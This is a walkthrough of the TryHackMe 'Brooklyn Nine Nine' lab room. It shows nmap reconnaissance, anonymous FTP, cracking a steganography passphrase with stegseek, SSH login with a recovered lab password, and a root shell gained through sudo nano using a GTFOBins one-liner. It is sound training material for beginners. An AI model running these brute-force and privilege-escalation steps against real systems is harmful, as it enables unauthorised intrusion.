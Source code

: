 ```yaml
---
title: TryHackMe Brooklyn Nine Nine
date: 2024-03-14 00:00:00 +0800
categories: [TryHackMe, Challenge]
tags: [walkthough,write-ups]     # TAG names should always be lowercase
image:
    path: https://tryhackme-images.s3.amazonaws.com/room-icons/95b2fab20e29a6d22d6191a789dcbe1f.jpeg
---
```


This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box.

## **Reconnaissance**
---
Initially do the Nmap scan.

```bash
nmap -sC -sV -p- $IP --open
```
`--open`: Scans only the open ports and reduces the time it takes to complete the nmap scan.


```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-13 04:31 EDT
Stats: 0:00:44 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 30.15% done; ETC: 04:33 (0:01:42 remaining)
Nmap scan report for 10.10.145.160
Host is up (0.30s latency).
Not shown: 65399 closed tcp ports (conn-refused), 133 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.50.82
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.31 seconds
```

## **Insights and To-TRY List**
---
OS: Ubuntu

TARGET IP: 10.10.145.160

80 → HTTP

- There is a clue from the source code about **steganography**
- The background image is password protected

21 → FTP

- Anonymous login is allowed
- There is a note saying that Jake has a weak password. From Amy.

22 → SSH

- There are possible 3 usernames.
    - Amy:?
    - Jake:?
    - Holts. Is this another username
        - Extracted from the background image.
- Found a password
    - holt: fluffydog12@ninenine

## **Enumeration**
---
### 80 HTTP

Viewing the page source code

![Desktop View](/assets/images/brooklyn/source-code.png){: width="972" height="589" }

It looks like we will be using some steganography tools. Maybe from the background image of the webpage since there is a big emphasis on how the background image follows the screen resolution. But how do we get the file?

![Desktop View](/assets/images/brooklyn/get-file.png){: width="972" height="589" }

Looking at the source code, the `url()` function is used to include an external resource. In this case, it's referring to an image file named **brooklyn99.jpg**. We can access it by:

```bash
http://10.10.145.160/brooklyn99.jpg
```
Before anything else, read about [Steganography by freecodecamp](https://www.freecodecamp.org/news/what-is-steganography-hide-data-inside-data/) first.

We need to extract what's hidden from the background image using steghide. You can use the --help page for steghide if you don't understand the flag being used.

```bash
steghide extract -sf brooklyn99.jpg -xf image-extract.txt
```

And it looks like the image is password protected. Let us use stegseek to bruteforce the password.

```bash
stegseek --crack brooklyn99.jpg /usr/share/wordlists/rockyou.txt
```
![Desktop View](/assets/images/brooklyn/stegseek.png){: width="972" height="589" }

**Use the steghide again** to extract the information from the background image and enter the password we got from bruteforcing using `stegseek`. Once extracted, view the text file.

```bash
steghide extract -sf brooklyn99.jpg -xf image-extract.txt
```
![Desktop View](/assets/images/brooklyn/steghide.png){: width="972" height="589" }

GOOD DOG! Cheddar!! We got the password, but who uses that? We can search for possible usernames in the FTP.

### 21 FTP

```bash
ftp <IP>
```
![Desktop View](/assets/images/brooklyn/ftp.png){: width="972" height="589" }

```bash
ls -la
```
![Desktop View](/assets/images/brooklyn/ls.png){: width="972" height="589" }

```bash
get <FILENAME>
```
![Desktop View](/assets/images/brooklyn/getfile.png){: width="972" height="589" }

Go back to working directory of the attack machine and view the text file.

![Desktop View](/assets/images/brooklyn/weak.png){: width="972" height="589" }

Can we hail hydra? Or Just use the credentials we just found from the text file hiding in the background image and the text file we got from the FTP.




## **Gaining an Initial Foothold**
---

Login via SSH. I tried using holt as the username, if it did not work, using hydra would be our best bet. Enter the password when prompted.

```bash
ssh holt@<IP>
```
![Desktop View](/assets/images/brooklyn/ssh.png){: width="972" height="589" }

> Do not forget to find the FLAGS
{: .prompt-danger }


## **Privilege Escalation**
---

I initially checked `sudo -l` command to list the permissions granted to the current user in the sudoers file.

![Desktop View](/assets/images/brooklyn/sudo.png){: width="972" height="589" }

It looks like our user is allowed to run `nano` as a superuser without a password. This means that we can open the final flag by leveraging the `sudo` command or just use the code below from GTFO bins to **spawn a root shell**.

![Desktop View](/assets/images/brooklyn/sudo-nano.png){: width="972" height="589" }

Using GTFOBins
```bash
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

```bash
Ctrl + R
```
Nano allows inserting external files into the current one using the shortcut

```bash
Ctrl + X
```
This command allows us to execute system level commands using

```bash
reset; sh 1>&0 2>&0
```
Allows us to spawn a shell

![Desktop View](/assets/images/brooklyn/root-gtfo.png){: width="972" height="589" }

![Desktop View](/assets/images/brooklyn/pwned.png){: width="972" height="589" }


> Do not forget to find the FLAGS
{: .prompt-danger }

## **Take Away Concepts**
---
- Understand steganography. Sometimes, these pictures might have the passwords or hints you need to get on top of the machine.
- Always check websites or web apps carefully by yourself. View the page source!
- If the binary /bin/nano has extra permissions, you can use this to your advantage to escalate your privilege. Make sure you understand how this trick works instead of just copying blindly from GTFObins.
- Pay close attention to any hints given.
- Don't worry about checking different network services if you're stuck. You can always take notes and come back later.
- Trying to bruteforce passwords right away isn't the best first step. Make sure you've tried all other options first to gain an initial foothold!